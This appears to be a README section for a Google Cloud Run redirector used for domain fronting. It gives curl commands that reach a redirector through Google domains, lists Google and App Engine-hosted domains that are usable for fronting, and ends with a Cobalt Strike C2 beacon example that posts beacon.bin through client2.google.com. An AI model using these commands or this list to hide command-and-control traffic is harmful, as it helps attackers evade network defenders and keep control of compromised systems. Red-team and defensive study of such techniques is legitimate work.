 ### Basic Usage

Once deployed, you can use domain fronting to access your redirector through Google domains:

```bash
# Basic GET request
curl -H "Host: redirector-my-redirector-abc123xyz.us-central1.run.app" \
     https://www.google.com/api/data

# POST request with data
curl -X POST \
     -H "Host: redirector-my-redirector-abc123xyz.us-central1.run.app" \
     -H "Content-Type: application/json" \
     -d '{"user":"test","pass":"123"}' \
     https://client2.google.com/login

# Custom headers
curl -H "Host: redirector-my-redirector-abc123xyz.us-central1.run.app" \
     -H "X-Custom-Header: value" \
     -H "User-Agent: Mozilla/5.0" \
     https://storage.googleapis.com/path/to/resource
```

### Supported Domains for Domain Fronting

The following domains can be used for domain fronting with Google Cloud infrastructure:

**Google-Owned Domains:**
- `www.google.com` - General purpose fronting
- `client2.google.com` - Software update endpoints
- `storage.googleapis.com` - Cloud storage services
- `accounts.google.com` - Authentication services
- `apis.google.com` - API service endpoints
- `youtube.com` - Video platform
- `dl.google.com` - Download services
- `play.google.com` - Play Store services
- `meet.google.com` - Video conferencing platform
- `*.googleapis.com` - Various Google API endpoints

**App Engine Hosted Services (*.appspot.com):**
- `api.snapchat.com` → `feelinsonice-hrd.appspot.com`
- Other third-party services that resolve to `*.appspot.com`

**Note:** You can identify App Engine hosted services by checking if they have CNAMEs pointing to `*.appspot.com`. These services are particularly useful for domain fronting as they route through Google's App Engine infrastructure.

### Advanced Examples

**C2 Beacon Example:**
```bash
# Cobalt Strike HTTP beacon through domain fronting
curl -X POST \
     -H "Host: redirector-c2-abc123xyz.us-central1.run.app" \
     -H "User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64)" \
     -H "Content-Type: application/octet-stream" \
     --data-binary @beacon.bin \
     https://client2.google.com/updates/check
```
